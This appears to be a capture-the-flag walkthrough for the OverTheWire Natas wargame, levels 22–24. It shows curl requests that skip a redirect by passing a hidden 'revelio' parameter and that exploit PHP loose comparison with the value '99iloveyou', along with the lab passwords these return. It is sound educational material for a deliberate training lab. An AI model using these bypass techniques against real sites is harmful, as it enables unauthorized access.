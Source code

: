 <?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

So if the "revelio" key exists, we will get the password printed, but we'd also redirect.

I'm using curl and won't follow redirects anyway"
```
abs@MacBookPro OverTheWire % curl "http://natas22.natas.labs.overthewire.org//index.php?revelio=1" -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz -s -i
HTTP/1.1 302 Found <---- Redirct
...
You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
```

# Level 22 -> 23:
```
abs@MacBookPro OverTheWire % curl "http://natas23.natas.labs.overthewire.org//index.php" -u natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs -s -i
Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

So from one hand, passwd should contain the "iloveyou" string, and from the other, the numeric value should be greater than 10:
```
abs@MacBookPro OverTheWire % curl "http://natas23.natas.labs.overthewire.org//index.php" -u natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs -s -d "passwd=99iloveyou & submit="
...
<br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

# Level 23 -> 24:
```
abs@MacBookPro OverTheWire % curl "http://natas24.natas.labs.overthewire.org//index.php" -u natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd -s
